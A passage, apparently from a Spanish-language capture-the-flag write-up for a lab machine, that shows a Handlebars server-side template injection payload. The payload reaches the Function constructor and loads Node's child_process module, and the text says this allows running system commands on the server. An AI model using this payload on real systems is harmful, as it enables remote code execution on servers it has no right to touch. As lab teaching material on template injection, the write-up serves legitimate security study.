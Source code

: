 Se proporciona un payload en Handlebars para comprobar si `mainModule` es accesible. Tras enviarlo, la respuesta confirma que la propiedad está disponible. Luego, se modifica el payload para llamar a `require` y cargar el módulo `child_process`, que permite ejecutar comandos del sistema.

```js
{ {#with "s" as |string|}}
{ {#with "e"}}
{ {#with split as |conslist|}}
{ {this.pop}}
{ {this.push (lookup string.sub "constructor")}}
{ {this.pop}}
{ {#with string.split as |codelist|}}
{ {this.pop}}
{ {this.push "return process.mainModule.require('child_process');"}}
{ {this.pop}}
{ {#each conslist}}
{ {#with (string.sub.apply 0 codelist)}}
{ {this}}
{ {/with}}
{ {/each}}
{ /with}}
{ {/with}}
{ {/with}}
{ {/with}}
```

Finalmente, se confirma que `require` ha sido llamado con éxito y `child_process` ha sido cargado, lo que permite ejecutar comandos en el sistema:

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Bike/ssti5.png" alt="under" oncontextmenu="return false;">
</div>
